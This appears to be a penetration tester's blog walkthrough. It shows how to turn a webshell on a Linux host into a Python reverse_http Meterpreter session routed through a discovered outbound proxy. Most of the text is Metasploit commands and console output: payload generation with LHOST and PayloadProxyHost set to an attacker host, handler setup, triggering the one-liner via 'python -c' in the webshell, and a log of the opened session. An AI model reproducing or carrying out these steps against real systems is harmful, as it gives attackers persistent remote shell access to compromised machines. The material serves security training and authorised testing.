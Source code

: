 # Metasploit - Python Meterpreter through Proxy

I got into a situation recently where I had a webshell on a Linux system and I wanted to get a full Meterpreter. Initially we thought that there was no outbound access but after a fellow teammate reversed some .jar files found on the system the proxy server was discovered. Basically now I needed a reverse shell that allowed me to specify a proxy for outbound connections. I sent a quick message to @TheColonial on IRC and he let me know that Python HTTP/HTTPS Meterpreters could do what I needed.

## Testing Python on the webshell

First I used the webshell to test the ability to run Python

```python -c "import os;os.system('ls')"```

## Generating the payload

When this worked I moved onto generating the meterpreter payload:

```msf > use payload/python/meterpreter/reverse_http```

Next I set my attack host ip address and the ip address of the outbound proxy:

```
msf payload(reverse_http) > show options

Module options (payload/python/meterpreter/reverse_http):

   Name              Current Setting            Required  Description
   ----              ---------------            --------  -----------
   LHOST             *attack host ip*           yes       The local listener hostname
   LPORT             80                         yes       The local listener port
   LURI                                         no        The HTTP Path
   PayloadProxyHost  *outbound proxy*           no        The proxy server's IP address
   PayloadProxyPort  80                         yes       The proxy port to connect to
```

Last step was to generate the payload:

```
msf payload(reverse_http) > generate -b '\x00\xff' -t raw -f meterp-python-https-80.py
[*] Writing 606 bytes to meterp-python-http-80.py...
```

This will generate a one liner that you can use to trigger the payload.

## Setting up the Handler

The next step is to setup the handler:
```
msf payload(reverse_http) > use exploit/multi/handler
```

Then I set the handler payload option:
```
msf exploit(handler) > set payload python/meterpreter/reverse_http
payload => python/meterpreter/reverse_http
```

Followed by the other needed options:

```
msf exploit(handler) > set LHOST *attack host ip*
LHOST => *attack host ip*
msf exploit(handler) > set LPORT 80
LPORT => 80
msf exploit(handler) > set PayloadProxyHost *outbound proxy*
PayloadProxyHost => *outbound proxy*
msf exploit(handler) > set Payloadproxyport 80
Payloadproxyport => 80
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (python/meterpreter/reverse_http):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   LHOST             *attack host ip* yes       The local listener hostname
   LPORT             80               yes       The local listener port
   LURI                               no        The HTTP Path
   PayloadProxyHost  *outbound proxy* no        The proxy server's IP address
   PayloadProxyPort  80               yes       The proxy port to connect to


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
   
```
There are a few additional options I set such as ExitOnSession to false so the handler remains open for multiple connections just in case the first one fails. Also I set verbose to true to get more verbose output for troublehsooting:

```
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > set VERBOSE true
verbose => true
```

Lastly I start the handler with exploit -j so it runs in the background:

```
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
```

## Triggering the payload

Next take the payload one liner that was generated and use python -c to trigger the payload in your webshell(Other forms of command execution could be potentially used to do this as well):

```
python -c "*python meterpreter one liner*"
```

And wait for the payload to stage:

```
[*] http://*attack host*:80 handling request from *outbound proxy*; (UUID: 6dvezhby) Staging Python payload...
[*] Meterpreter session 1 opened (*victim*:80 -> *outbound proxy*:12480) at 2016-10-05 00:12:02 +0000
```

Enjoy your Meterpreter :)
